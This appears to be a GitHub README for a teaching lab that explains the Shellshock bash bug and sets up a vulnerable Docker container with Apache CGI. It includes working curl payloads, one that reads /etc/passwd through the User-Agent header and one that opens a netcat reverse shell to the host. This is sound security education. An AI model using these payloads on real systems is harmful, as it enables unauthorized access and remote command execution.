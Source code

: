 forked from https://github.com/tex2e/docker-shellshock-cgi


# Shellshock
This repository consists of a description and a demonstration of the shellshock vulnerablity. The demonstration is based on a docker container containing a CentOS8 linux distribution with a vulnerable bash (v4.3), an Apache2 Webserver and netcat.

## Description of vulnerability
In the standard linx bash it is possible to store not only values but also functions in environment variables. When such functions are stored in environment variables, there is a bug that prevents the parsing process from not terminating after the function ends. Instead, anything entered after the function is executed directly in the current shell environment.

By itself, this bug cannot be abused from the outside. In combination with a webserver and an associated Common Gateway Interface (CGI) this bug becomes dangerous. The CGI interface is used to get e.g. browser specific data from the webserver to an application by the following procedure:


1. the request is sent to the web server 
2. the web server stores general data as environment variables in the current environment
3. the cgi application can get this information by reading the environment variables.

With this behavior, it is possible to send a request to the web server that contains some function-like lines and concatenated code snippets. After parsing the function, the parsing process does not stop and executes the additional code snippets directly in bash


## Demonstration
Prerequisites:
- Docker
- git 
- netcat

### Build and run docker container
1. clone this git repository 
```bash 
git clone https://github.com/juuugee/docker-shellshock-cgi.git 
 ```
2. navigate inside the cloned directory
```bash 
cd docker-shellshock-cgi/
 ```

3. build docker container: 
``` bash
docker build -t seccode/shellshock .
```
4. run docker container: 
``` bash
docker run -itd -p 80:80 --privileged --add-host=host.docker.internal:host-gateway --name secode_shellshock seccode/shellshock /sbin/init
``` 
To make sure that the docker container is running, enter the following url in a browser: 

    http://localhost:80


### Attack 1 
(Linux terminal preferred)

With the curl command, send a request to the webserver of the running docker container. 
In this example, the file **etc/passwd** can be accessed and directly printed out:
```bash
curl -A "() { :;}; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:80/cgi-bin/test.cgi
```

In the command above, the expression *() { :;};* is a empty function which should be parsed into a envrionment variable. Instead of stopping the parsing process the addtional code is being executed, which accessses the **etc/passwd** file and prints it with the **/bin/cat** tool in our console.

### Attack 2 Reverse Shell
![Reverse-Shell](./images/reverseshell.jpg)
Source: (https://blog.finxter.com/python-one-line-reverse-shell/)
### Execution
in the second attack a reverse shell is being created. 
1. start netcat listener on the host computer:
```    
nc -lp 4545
```
This listener waits for the docker container to connect to it.     

2. Establish a connection:
In a second terminal send the request below to the webserver in the docker container. This leads to a reverse shell.
```
curl -A "() { :;}; /bin/bash -c \"nc host.docker.internal 4545 -e /bin/bash\"& " http://localhost:80/cgi-bin/test.cgi
```

After executing this command the netcat listener in the first termimal should display an incoming connection. Now it is possible to enter commands in this terminal which then are directly executed in the docker container. Below are some examples:
```
$ whoami
$ pwd
$ ls
$ cd
...
```

### See Also

- [mubix/shellshocker-pocs: Collection of Proof of Concepts and Potential Targets for #ShellShocker](https://github.com/mubix/shellshocker-pocs)
- [docker-shellshockable/Dockerfile at master · Zenithar/docker-shellshockable](https://github.com/Zenithar/docker-shellshockable/blob/master/Dockerfile)
